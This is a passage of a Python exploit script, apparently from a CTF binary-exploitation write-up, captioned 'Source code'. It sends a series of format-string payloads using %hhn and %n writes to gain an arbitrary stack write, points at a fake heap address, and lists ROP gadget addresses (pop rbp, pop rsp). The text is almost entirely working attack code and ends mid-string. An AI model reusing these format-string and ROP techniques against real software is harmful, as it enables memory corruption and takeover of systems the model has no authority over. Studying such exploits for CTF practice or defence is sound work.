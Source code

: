 ```

    sleep(0.1)
    sl(payload1)
    bp([0x4007c1])

    sleep(0.1)
    payload2='%'+str(0xa3)+'c%23$hhn'
    sl(payload2)
    input()
    sleep(0.1)
    stack_tail=(stack-280)&amp;0xff
    payload3='%'+str(0x48)+'c%18$hhn'+'%'+str(0xa3-0x48)+'c%23$hhn'

    sleep(0.1)
    sl(payload3)
    #get arbitray write
    sleep(0.2)
    payload4='%'+str(stack_tail)+'c%18$hhn'+'%'+str(0xa3-stack_tail)+'c%23$hhn'
    sl(payload4)

    sleep(0.1)
    payload5='%13$n'+'%'+str(0xa3)+'c%23$hhn'
    sl(payload5)

    sleep(0.2)
    payload4='%'+str(stack_tail+4)+'c%18$hhn'+'%'+str(0xa3-stack_tail-4)+'c%23$hhn'
    sl(payload4)

    sleep(0.1)
    payload5='%13$n'+'%'+str(0xa3)+'c%23$hhn'
    sl(payload5)  #clear up the first arg

    sleep(0.2)
    payload4='%'+str(stack_tail+4)+'c%18$hhn'+'%'+str(0xa3-stack_tail-4)+'c%23$hhn'
    sl(payload4)

    sleep(0.1)
    payload5='%13$n'+'%'+str(0xa3)+'c%23$hhn'
    sl(payload5)#clear up the first arg



    sleep(0.2) #fake_heap=0x6010a0
    payload4='%'+str(stack_tail)+'c%18$hhn'+'%'+str(0xa3-stack_tail)+'c%23$hhn'
    sl(payload4)

    sleep(0.1)
    payload5='%'+str(0xa3)+'c%23$hhn'+'%'+str(0x10a0-0xa3)+'c%13$hn'
    sl(payload5)

    sleep(0.2) #fake_heap=0x6010a0
    payload4='%'+str(stack_tail+2)+'c%18$hhn'+'%'+str(0xa3-stack_tail-2)+'c%23$hhn'
    sl(payload4)

    sleep(0.1)
    payload5='%'+str(0x60)+'c%13$hhn'+'%'+str(0xa3-0x60)+'c%23$hhn'
    sl(payload5)

    # merge heap and ROP
    prbp = 0x400690 #pop rbp;ret;
    prsp = 0x40082d #pop rsp r13 r14 r15 ;ret
    adc = 0x4006E8  
    '''
```